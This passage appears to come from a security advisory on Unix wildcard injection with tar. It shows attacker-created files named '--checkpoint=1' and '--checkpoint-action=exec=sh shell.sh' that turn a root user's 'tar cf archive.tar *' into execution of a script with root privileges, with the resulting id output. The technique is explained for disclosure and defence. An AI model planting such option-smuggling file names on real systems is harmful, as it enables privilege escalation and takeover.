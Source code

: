 There is `--checkpoint-action` option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary
command execution.

Check the following directory:

```
[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
drwx———. 24 user user  4096 Oct 28 18:32 ..
-rw-rw-r———.  1 user user 20480 Oct 28 19:13 admin.php
-rw-rw-r———.  1 user user    34 Oct 28 17:47 ado.php
-rw-r———r———.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r———r———.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rw-rw-r———.  1 user user   187 Oct 28 17:44 db.php
-rw-rw-r———.  1 user user   201 Oct 28 17:43 download.php
-rw-rw-r———.  1 user user    43 Oct 28 17:35 file1.php
-rw-rw-r———.  1 user user    56 Oct 28 17:47 footer.php
-rw-rw-r———.  1 user user   357 Oct 28 17:36 global.php
-rw-rw-r———.  1 user user   225 Oct 28 17:37 header.php
-rw-rw-r———.  1 user user   117 Oct 28 17:36 inc.php
-rw-rw-r———.  1 user user   111 Oct 28 17:38 index.php
-rw-rw-r———.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh
```

Now, for example, root user wants to create archive of all files in current  directory.

```
[root@defensecode public]# tar cf archive.tar *

uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Boom! What happened? /usr/bin/id command gets executed! We’ve just achieved arbitrary command execution under root privileges.
Once again, there are few files created by user ‘leon’. 

```
-rw-r———r———.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r———r———.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh
```

Options ‘checkpoint=1’ and ‘checkpoint-action=exec=sh shell.sh’ are passed to the  ‘tar’ program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.
